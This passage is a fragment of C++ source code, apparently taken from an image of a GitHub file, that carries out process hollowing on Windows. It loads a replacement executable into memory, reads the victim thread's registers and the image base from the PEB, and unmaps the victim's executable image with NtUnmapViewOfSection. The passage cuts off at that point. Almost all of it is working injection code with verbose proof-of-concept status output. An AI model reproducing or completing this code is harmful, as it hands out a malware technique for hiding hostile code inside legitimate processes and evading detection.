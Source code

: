 ```cpp
		hReplacement,
		0);
	printf("[+] Replacement executable opened\r\n");
	printf("\t[*] Size %i bytes\r\n", replacementSize);

	
	// Allocate memory for replacement executable and then load it
	PVOID pReplacementImage = VirtualAlloc(
		0, 
		replacementSize, 
		MEM_COMMIT | MEM_RESERVE, 
		PAGE_READWRITE);

	DWORD totalNumberofBytesRead;

	if (!ReadFile(
			hReplacement, 
			pReplacementImage, 
			replacementSize, 
			&totalNumberofBytesRead, 
			0)) {
		printf("[-] Unable to read the replacement executable into an image in memory %i\r\n", GetLastError());
		TerminateProcess(pVictimProcessInfo->hProcess, 1);
		return 1;
	}
	CloseHandle(hReplacement);
	printf("[+] Read replacement executable into memory\r\n");
	printf("\t[*] In current process at 0x%08x\r\n", (UINT)pReplacementImage);

	
	// Obtain context / register contents of victim process's primary thread
	CONTEXT victimContext;
	victimContext.ContextFlags = CONTEXT_FULL;
	GetThreadContext(pVictimProcessInfo->hThread, 
		&victimContext);
	printf("[+] Obtained context from victim process's primary thread\r\n");
	printf("\t[*] Victim PEB address / EBX = 0x%08x\r\n", (UINT)victimContext.Ebx);
	printf("\t[*] Victim entry point / EAX = 0x%08x\r\n", (UINT)victimContext.Eax);

	
	// Get base address of the victim executable
	PVOID pVictimImageBaseAddress;
	ReadProcessMemory(
		pVictimProcessInfo->hProcess, 
		(PVOID)(victimContext.Ebx + 8), 
		&pVictimImageBaseAddress, 
		sizeof(PVOID), 
		0);
	printf("[+] Extracted image base address of victim process\r\n");
	printf("\t[*] Address: 0x%08x\r\n", (UINT)pVictimImageBaseAddress);

	
	// Unmap executable image from victim process	
	DWORD dwResult = NtUnmapViewOfSection(
		pVictimProcessInfo->hProcess,
		pVictimImageBaseAddress);
	if (dwResult) {
		printf("[-] Error unmapping section in victim process\r\n");
		TerminateProcess(pVictimProcessInfo->hProcess, 1);
		return 1;
	}

```